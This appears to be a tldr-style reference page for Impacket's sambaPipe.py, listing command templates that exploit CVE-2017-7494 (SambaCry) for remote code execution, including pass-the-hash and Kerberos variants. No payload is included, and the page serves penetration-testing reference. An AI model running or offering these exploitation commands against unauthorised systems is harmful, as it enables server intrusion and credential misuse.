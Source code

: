 ```yaml
---
title: "Samba Exploit - RCE with SambaCry | Online Free DevTools by Hexmos"
name: sambapipe.py
path: /freedevtools/tldr/common/sambapipe-py
canonical: "https://hexmos-com/freedevtools/tldr/common/sambapipe-py/"
description: "Exploit SambaCry vulnerabilities with sambaPipe.py. Achieve Remote Code Execution (RCE) on vulnerable Samba servers using shared object (SO) files. Free online tool, no registration required."
category: common
keywords:
- Samba exploit
- SambaCry exploit
- RCE exploit
- Remote Code Execution
- SMB vulnerability
- Shared object upload
- Linux exploit
- Network penetration testing
- CVE-2017-7494
- Impacket
features:
- Exploit SambaCry vulnerability for RCE
- Upload shared object files to vulnerable Samba servers
- Authenticate with NTLM hashes for exploitation
- Support Kerberos authentication for targeted exploitation
- Customize SMB connection port during exploitation
ogImage: "https://hexmos.com/freedevtools/site-banner.png"
twitterImage: "https://hexmos.com/freedevtools/site-banner.png"
---
```


# sambaPipe.py

> Exploit CVE-2017-7494 (SambaCry) to upload and load a shared object (SO) file on a vulnerable Samba server for remote code execution.
> More information: <https://github.com/fortra/impacket>.

- Upload and load a shared object file on a vulnerable Samba server:

`sambaPipe.py -so {{path/to/file.so}} {{domain}}/{{username}}:{{password}}@{{target}}`

- Authenticate using NTLM hashes instead of a password:

`sambaPipe.py -so {{path/to/file.so}} -hashes {{LM_HASH:NT_HASH}} {{domain}}/{{username}}:{{password}}@{{target}}`

- Use Kerberos authentication for the target:

`sambaPipe.py -so {{path/to/file.so}} -k -no-pass {{domain}}/{{username}}:{{password}}@{{target}}`

- Specify a domain controller IP for authentication:

`sambaPipe.py -so {{path/to/file.so}} -dc-ip {{dc_ip}} {{domain}}/{{username}}:{{password}}@{{target}}`

- Use a custom port for the SMB connection:

`sambaPipe.py -so {{path/to/file.so}} -port {{port}} {{domain}}/{{username}}:{{password}}@{{target}}`

